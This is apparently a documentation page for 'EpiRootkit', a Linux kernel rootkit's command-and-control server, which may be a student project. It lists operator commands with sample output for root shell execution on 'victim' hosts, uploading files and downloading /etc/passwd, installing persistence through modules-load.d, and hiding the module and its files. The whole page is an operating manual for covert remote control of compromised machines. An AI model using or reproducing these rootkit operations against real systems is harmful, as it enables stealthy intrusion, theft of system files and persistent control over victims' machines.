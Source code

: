 ```yaml
---
title: "Command Reference"
description: "Complete reference for all C2 server commands"
icon: "terminal"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 303
---
```


# Command Reference

Complete reference for all C2 server commands.

## Command List

| Command | Description | Auth Required |
|---------|-------------|---------------|
| `clients, ls` | List connected clients | No |
| `auth <client> <password>` | Authenticate with client | No |
| `exec <client> <command>` | Execute shell commands | Yes |
| `upload <client> <local> [remote]` | Upload files to victim | Yes |
| `download <client> <remote> [local]` | Download files from victim | Yes |
| `status <client>` | Get rootkit status | Yes |
| `keepalive <client>` | Check connection status | Yes |
| `persist <client> [action]` | Manage persistence | Yes |
| `config <client>` | Interactive configuration | Yes |

## Client Management

### List Clients
```bash
ls               # List all connected clients
# • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
# • Client-2 - UNAUTHENTICATED - Last seen: 6:10:15 PM

clients          # Same as ls
```

### Authentication
```bash
auth Client-1 password     # Authenticate with client
# ✓ [2025-05-25 16:13:29] Authenticated
# SUCCESS: Authentication successful

auth Client-1 wrongpass    # Wrong password
# ERROR: Authentication failed
```
**Features:**
- SHA-512 password hashing
- Rate limiting (5 attempts/60 seconds)
- Session timeout (1 hour)
- Default password: `password`

## Command Execution

```bash
exec Client-1 whoami
# Exit code: 0
# Output: root

exec Client-1 uname -a
# Exit code: 0
# Output: Linux victim 5.4.0-74-generic #83-Ubuntu x86_64 GNU/Linux

exec Client-1 ps aux | head -5
# Exit code: 0
# Output: 
# USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
# root         1  0.0  0.1 225468  9876 ?        Ss   15:00   0:01 /sbin/init
# root         2  0.0  0.0      0     0 ?        S    15:00   0:00 [kthreadd]
```

**Features:**
- Root privileges execution
- Full stdout/stderr capture
- Exit code display
- Real-time output

## File Transfer

### Upload Files
```bash
upload Client-1 ./file.txt /tmp/file.txt    # Upload to specific path
# ✓ File uploaded successfully (1024 bytes)

upload Client-1 ./script.sh                 # Upload to current directory
# ✓ File uploaded successfully (512 bytes)
```

### Download Files
```bash
download Client-1 /etc/passwd ./passwd      # Download to specific path
# ✓ File downloaded successfully (2048 bytes)

download Client-1 /etc/hostname             # Download to current directory
# ✓ File downloaded successfully (64 bytes)
```

**Features:**
- Base64 encoding
- Path validation
- Binary/text file support
- Automatic path resolution

## System Information

### Status Check
```bash
status Client-1
# EpiRootkit Status:
# Version: 1.0.0
# Authentication: YES
# Connection: CONNECTED
# Module Hidden: YES
# File Hiding: YES
# Persistence: ENABLED
```
**Output:**
- Version information
- Authentication status
- Module hiding state
- Persistence status

### Connection Check
```bash
keepalive Client-1
# Keepalive Status:
# Last ping: 2025-05-25 16:14:00
# Last pong: 2025-05-25 16:14:00
# Failed pings: 0
# Connection: STABLE
```
**Output:**
- Last ping/pong times
- Failed ping count
- Connection stability
- Reconnection attempts

## Persistence Management

```bash
persist Client-1 install    # Install all mechanisms
# SUCCESS: All persistence mechanisms installed

persist Client-1 remove     # Remove all mechanisms
# SUCCESS: All persistence mechanisms removed

persist Client-1 modules    # modules-load.d only
# SUCCESS: modules-load.d persistence installed
```

## Configuration

### Interactive Config
```bash
config Client-1
# ┌─ Configuration - Client-1
#   Current Configuration:
#   [X] Module Hiding (Click to disable)
#   [X] File Hiding (Click to disable)
#   [X] Persistence (Click to disable)
#   
# ? Select option: [Use arrow keys]
```
**Available Settings:**
- Module hiding toggle
- File hiding toggle
- Persistence management
- Connection parameters

### Direct Commands
```bash
# Stealth features
hide_module Client-1      # Hide rootkit module
# SUCCESS: Module hidden

unhide_module Client-1    # Show rootkit module
# SUCCESS: Module visible

hide_files Client-1       # Enable file hiding
# SUCCESS: File hiding enabled

unhide_files Client-1     # Disable file hiding
# SUCCESS: File hiding disabled
```
